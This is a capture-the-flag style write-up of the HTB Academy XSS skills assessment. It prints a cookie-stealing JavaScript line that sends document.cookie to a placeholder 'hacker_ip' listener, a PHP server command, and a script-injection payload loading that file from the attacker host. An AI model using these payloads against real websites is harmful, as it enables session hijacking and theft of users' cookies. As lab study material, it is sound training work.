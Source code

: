 # Cross-Site Scripting (XSS)  
## Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.**Answers:**

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-code.png" >

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```


<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png" >
<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png" >

### Great, it works!

### Let's check our cookie file.

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png" >

## Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


